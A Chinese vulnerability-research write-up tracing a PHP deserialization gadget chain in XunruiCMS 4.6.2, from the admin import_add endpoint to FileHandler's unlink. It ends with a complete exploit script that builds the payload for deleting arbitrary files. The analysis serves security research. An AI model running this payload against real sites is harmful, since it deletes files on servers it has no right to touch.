





# 奇安信攻防社区 - Xunruicms 反序列化漏洞利用链挖掘过程

## 测试环境

V 4.6.2 (似乎小于这个版本的都行)

## 漏洞点

```php
\xunruicms\dayrui\Fcms\Core\Helper.php
```

```php
function dr_string2array($data, $limit = '') {  

    if (!$data) {  
        return [];  
    } elseif (is_array($data)) {  
        $rt = $data;  
    } else {  
        $rt = json_decode($data, true);  
        if (!$rt) {  
            $rt = unserialize(stripslashes($data));  
        }  
    }  

    if (is_array($rt) && $limit) {  
        return dr_arraycut($rt, $limit);  
    }  

    return $rt;  
}
```

这里的 **unserialize** 函数里面存在一个 `stripslashes` 函数，这个可以绕过，只有将 $data 中的 `\` 修改为 `\\` 即可，在此之前，需要解决

`json_decode` 的问题，正常的 json 字符串会被解析，然后返回解析的值，如果传入的是不正常的字符串，它会解析失败，返回 false，然后才能进入 `unserialize`

在这个过程中，$data 并没有其他过多的检查，从而造成了反序列化漏洞

## 传参入口寻找

为了能够利用这个 unserialize 函数，必须找到 $data 的输入点，ALT+F7 搜索 `dr_string2array` 函数，找到了许多结果



找了很多，发现只有这个函数操作性比较强，其他的调用有许多是不可控的，或者是过滤

```php
xunruicms\dayrui\Fcms\Control\Admin\Field.php
```



看看这个 `import_add` 方法

首先，先判断是不是 post 请求，进入 if 语句，然后接收一个 post 参数 code，然后通过 `\r\n` 对字符串进行分割，变为数组

如果 post 的 code 有数值，就不会进入 if (!$arr), 绕后就遍历这个数组，把数组中的每一个数值都传到 `dr_string2array` 中，然后就是触发反序列化

下一个问题，如何才能进入这个 `import_add` 函数呢

在路由解析的过程中会接收两个参数，`c` 和 `m` 其中 c 获取的是类名，m 获取的是方法名，获取之后会调用对应方法

尝试访问

```php
http://127.0.0.1/?c=field&m=import_add
```

出现 404

观察一下目录，因为这个 field 类在 Admin 目录里面的，可能要访问 admin.php

```php
http://127.0.0.1/admin3a609e1d6cff.php?c=field&m=import_add
```

在没有登录的情况下，会跳转到登录入口，所以要先登录管理员账号，可以通过下断点查看有没有执行到 import\_add 方法

```php
POST ?/admin3a609e1d6cff.php?c=field&m=import_add  
code = xxxx
```

## 利用链寻找

第一步寻找`__destruct()` 方法，只有 5 个，一个一个找



第一个

```php
public function __destruct()  
    {  
        if ($this->memcached instanceof Memcached) {  
            $this->memcached->quit();  
        } elseif ($this->memcached instanceof Memcache) {  
            $this->memcached->close();  
        }  
    }
```

这个 `$this->memcached` 可控，但是要是 Memcached 或 Memcached 的实例，操作空间不大 pass

第二个

```php
public function __destruct()  
    {  
        if (is_resource($this->SMTPConnect)) {  
            try {  
                $this->sendCommand('quit');  
            } catch (ErrorException $e) {  
                $protocol = $this->getProtocol();  
                $method   = 'sendWith' . ucfirst($protocol);  
                log_message('error', 'Email: ' . $method . ' throwed ' . $e);  
            }  
        }  
    }
```

`$this->SMTPConnect` 可控，但是要是一个资源类型，后面进入 `sendCommand` 方法，里面操作空间不大 pass

第三个

```php
public function __destruct()  
    {  
        if (isset($this->scratch)) {  
            self::wipeDirectory($this->scratch);  
            $this->scratch = null;  
        }  
    }
```

这个会调用 `self::wipeDirectory` ,`$this->scratch` 可控，跟进查看

```php
private static function wipeDirectory(string $directory): void  
    {  
        if (is_dir($directory)) {  
            // Try a few times in case of lingering locks  
            $attempts = 10;  

            while ((bool) $attempts && ! delete_files($directory, true, false, true)) {  
                // @codeCoverageIgnoreStart  
                $attempts--;  
                usleep(100000); // .1s  
                // @codeCoverageIgnoreEnd  
            }  

            @rmdir($directory);  
        }  
    }
```

这里调用了 `delete_files` 似乎可以进行文件删除，继续跟进 `delete_files`

```php
//\xunruicms\dayrui\CodeIgniter\System\Helpers\filesystem_helper.php  
function delete_files(string $path, bool $delDir = false, bool $htdocs = false, bool $hidden = false): bool  
    {  
        $path = realpath($path) ?: $path;  
        $path = rtrim($path, DIRECTORY_SEPARATOR) . DIRECTORY_SEPARATOR;  
        try {  
            foreach (new RecursiveIteratorIterator(  
                new RecursiveDirectoryIterator($path, RecursiveDirectoryIterator::SKIP_DOTS),  
                RecursiveIteratorIterator::CHILD_FIRST  
            ) as $object) {  
                $filename = $object->getFilename();  
                if (! $hidden && $filename[0] === '.') {  
                    continue;  
                }  
                if (! $htdocs || ! preg_match('/^(\.htaccess|index\.(html|htm|php)|web\.config)$/i', $filename)) {  
                    $isDir = $object->isDir();  
                    if ($isDir && $delDir) {  
                        rmdir($object->getPathname());  

                        continue;  
                    }  
                    if (! $isDir) {  
                        unlink($object->getPathname());  
                    }  
                }  
            }  
            return true;  
        } catch (Throwable $e) {  
            return false;  
        }  
    }
```

1.  首先，使用 `realpath($path) ?: $path` 将传入的 `$path` 转换为绝对路径，如果转换失败，则保留原始路径。
    
2.  然后，使用 `rtrim($path, DIRECTORY_SEPARATOR) . DIRECTORY_SEPARATOR` 将路径末尾的目录分隔符删除，并在末尾添加一个目录分隔符。
    
3.  接下来，使用 `RecursiveDirectoryIterator`
    
    类和 `RecursiveIteratorIterator`
    
    类遍历指定路径下的所有文件和目录。
    
    -   `RecursiveDirectoryIterator` 用于递归地遍历目录，并跳过 "." 和 ".." 目录。
    -   `RecursiveIteratorIterator` 使用 `CHILD_FIRST` 模式，确保先处理子目录中的文件和目录，然后再处理父目录中的文件和目录。
4.  对于遍历到的每个文件或目录 `$object` 执行以下操作：
    
    -   获取文件名 `$filename = $object->getFilename()`。
        
    -   如果 `$hidden` 为 `false`，并且文件名以 `.` 开头，则跳过当前循环，不处理该文件。
        
    -   如果 `$htdocs` 为 `true`，并且文件名匹配 `.htaccess`、`index.html`、`index.htm`、`index.php` 和 `web.config` 则跳过当前循环，不处理该文件。
        
    -   检查文件类型：
        
        -   如果是目录且 `$delDir` 为 `true`，则使用 `rmdir($object->getPathname())` 删除目录，并继续下一次循环。
        -   如果不是目录，则使用 `unlink($object->getPathname())` 删除文件。
5.  循环结束后，返回 `true` 表示删除操作成功。
    
6.  如果在删除过程中发生任何异常（`Throwable`），则捕获异常，并返回 `false` 表示删除操作失败。
    

写 poc 试了一下，发现没有在 `wipeDirectory` 中没有进入 `delete_files` 中，报错了，函数导向错误



因为 `delete_files` 并不存在于某个类里面，只是一个函数，要利用这个方法需要引用它所在的文件，利用的类里面已经引用了这个文件，就是不跳转

TT^TT

第四个

```php
public function __destruct()  
    {  
        unset($this->data);  
        unset($this->cache);  
        unset($this->ret);  
        unset($this->icon);  
        unset($this->result_array);  
        unset($this->nbsp_str);  
        unset($this->nbsp);  
        unset($this->result);  
    }
```

这个只是用来释放变量，没操作空间，pass

第五个

```php
public function __destruct()  
    {  
        if (isset($this->redis)) {  
            $this->redis->close();  
        }  
    }
```

这个 `$this->redis` 可控，这里有两个方向，一个触发某个类的`__call()` , 另外一个是找到一个含有 `close()` 方法的类

经过一番查找，没有找到能利用的 \*\*\_\_call ()\*\* ，只好去看看 close () 了

全局搜索 close () 方法找到了 15 个方法，其中有 7 个是 js 文件的，忽略



经过一番查找，找到这个可以用

```php
//\xunruicms\dayrui\CodeIgniter\System\Session\Handlers\MemcachedHandler.php  
public function close(): bool  
    {  
        if (isset($this->memcached)) {  
            if (isset($this->lockKey)) {  
                $this->memcached->delete($this->lockKey);  
            }  
            if (! $this->memcached->quit()) {  
                return false;  
            }  
            $this->memcached = null;  

            return true;  
        }  

        return false;  
    }
```

这里的 `$this->memcached` 和 `$this->lockKey` 都可控，这里也可以触发任意类的`__call` 方法，也可以触发任意类的 `delete()` 和 `quit()` 方法

这里优先选择 `delete()` , 因为其参数 `$this->lockKey` 可控

全局搜索 `delete()` 方法，找到这个

```php
public function delete() {  
        @unlink($this->fullname);  
    }
```

`$this->fullname` 可控，这里可以任意文件删除了，但是这是无参数方法，不能跳转到这利用

还一个：

```php
//\xunruicms\dayrui\CodeIgniter\System\Cache\Handlers\FileHandler.php  
public function delete(string $key)  
    {  
        $key = static::validateKey($key, $this->prefix);  

        return is_file($this->path . $key) && unlink($this->path . $key);  
    }
```

其中 $key 是上面传来的参数 `$this->lockKey` 并且 `$this->prefix` 和 `$this->path` 也可控，可以看到后面会将 `$this->path` 和 `$key` 进行拼接，进行判断是否是文件，如果是文件则调用 `unlink` 方法进行文件删除

现在主要关注 `validateKey` 方法对 $key 的处理

```php
public static function validateKey($key, $prefix = ''): string  
    {  
        if (! is_string($key)) {  
            throw new InvalidArgumentException('Cache key must be a string');  
        }  
        if ($key === '') {  
            throw new InvalidArgumentException('Cache key cannot be empty.');  
        }  

        $reserved = config('Cache')->reservedCharacters ?? self::RESERVED_CHARACTERS;  
        if ($reserved && strpbrk($key, $reserved) !== false) {  
            throw new InvalidArgumentException('Cache key contains reserved characters ' . $reserved);  
        }  

        // If the key with prefix exceeds the length then return the hashed version  
        return strlen($prefix . $key) > static::MAX_KEY_LENGTH ? $prefix . md5($key) : $prefix . $key;  
    }
```

这个方法，在确保传入的 $key 不为空，并且是字符串的前提下，才能正常进行下面操作

```php
$reserved = config('Cache')->reservedCharacters ?? self::RESERVED_CHARACTERS;
```

获取配置中的保留字符列表。如果 `config('Cache')->reservedCharacters` 存在，则将其赋值给 `$reserved`；否则，使用 `self::RESERVED_CHARACTERS` 的默认值。

```php
public string $reservedCharacters = '{}()/\\@:';
```

```php
return strlen($prefix . $key) > static::MAX_KEY_LENGTH ? $prefix . md5($key) : $prefix . $key;
```

-   首先，计算添加前缀后键的长度是否大于预定义的最大键长度 `static::MAX_KEY_LENGTH`。
-   如果大于最大键长度，则返回将 `$prefix . md5($key)` 处理后的哈希值作为缓存键。这是为了确保最终返回的键不会超过最大键长度。
-   如果小于等于最大键长度，则返回将 `$prefix . $key` 拼接作为缓存键

经过测试，在 delete 方法中，如果传入 `$key` 为要删除的文件名，在经过 `validateKey` 处理后，不会对 key 照常改变，直接返回 `key`, 而 `$this->prefix` 不需要修改，默认就行

在拼接文件路径的 `$this->path` 可以是绝对路径，也可以是相对路径，默认是 public 目录下

在写 exp 的过程中，遇到一个问题，就是类的属性都是 `protected` 类型的，不能直接修改值

因为这个 cms 安装条件是 PHP7.4+ , 由于 `PHP7.1+` 对属性类型不敏感，可以将 `protected` 修改为 `public` 类型

## 最后的 exp

```php
//任意文件删除  
<?php  
namespace CodeIgniter\Cache\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
use CodeIgniter\Session\Handlers\MemcachedHandler;  
class RedisHandler extends BaseHandler  
{  
    public $redis;  
    public function __construct()  
    {  
        $this->redis =new MemcachedHandler();  
    }  
}  

namespace CodeIgniter\Session\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
use CodeIgniter\Cache\Handlers\FileHandler;  
class MemcachedHandler extends BaseHandler  
{  
    public $memcached ;  
    public $lockKey ;  

    public function __construct()  
    {  
        $this->memcached=new FileHandler();  
        $this->lockKey = "1.txt"; //文件名  
    }  
}  

namespace CodeIgniter\Session\Handlers;  
abstract class BaseHandler  
{  
}  

namespace CodeIgniter\Cache\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
class FileHandler extends BaseHandler  
{  
    public $path;  
    public function __construct()  
    {  
        $this->path="./"; //路径  
    }  

}  

use CodeIgniter\Cache\Handlers\RedisHandler;  
$str =  serialize(new RedisHandler());  
$newStr = str\_replace('\\', '\\\\', $str);  
echo urlencode($newStr)."\n";
```

## END
